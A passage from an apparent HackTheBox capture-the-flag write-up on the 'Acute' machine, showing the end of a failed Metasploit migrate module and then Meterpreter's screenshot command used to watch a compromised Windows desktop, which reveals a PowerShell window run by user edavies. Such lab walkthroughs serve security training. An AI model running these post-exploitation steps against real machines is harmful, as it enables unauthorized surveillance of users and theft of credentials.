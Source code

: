 ```shell
[-]   /opt/metasploit-framework/embedded/framework/modules/post/windows/manage/migrate.rb:64:in `run'
[*] Post module execution completed
```

- **Take a screenshot using `screenshot` command in Meterpreter shell:**

```shell
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > screenshot
Screenshot saved to: /home/siunam/ctf/htb/Machines/Acute/mkieDjXj.jpeg
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Acute/images/Pasted%20image%2020230815141214.png)

**After waiting for a little bit and taking bunch of screenshots, there's a PowerShell window, which runs as user `edavies`!**
